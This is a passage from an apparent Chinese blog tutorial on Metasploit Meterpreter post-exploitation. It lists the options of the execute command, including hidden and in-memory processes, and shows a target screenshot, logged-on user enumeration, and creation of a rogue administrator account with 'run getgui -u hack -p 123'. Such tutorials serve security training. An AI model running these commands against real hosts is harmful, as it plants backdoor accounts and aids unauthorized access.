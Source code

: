 


运行后它将执行所指定的命令。可选参数如下：



> \-f：指定可执行文件

> 

> \-H：创建一个隐藏进程

> 

> \-a：传递给命令的参数

> 

> \-i：  跟进程进行交互

> 

> \-m：从内存中执行

> 

> \-t： 使用当前伪造的线程令牌运行进程

> 

> \-s： 在给定会话中执行进程



![](https://img-blog.csdnimg.cn/20190613152431226.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### 屏幕截图



输入：screenshot  ，截图目标主机屏幕，可以看到，图片被保存到了　/root 目录下



![](https://img-blog.csdn.net/20181024194503136?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



### 创建一个新账号



先查看目标主机有哪些用户



run post/windows/gather/enum\_logged\_on\_users



![](https://img-blog.csdnimg.cn/20190613152519616.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



接下来，我们可以在目标系统中创建一个新的用户账号：run getgui -u hack -p 123，这个命令会创建用户，并把他添加到 Administrators 组中，这样该用户就拥有远程桌面的权限了。
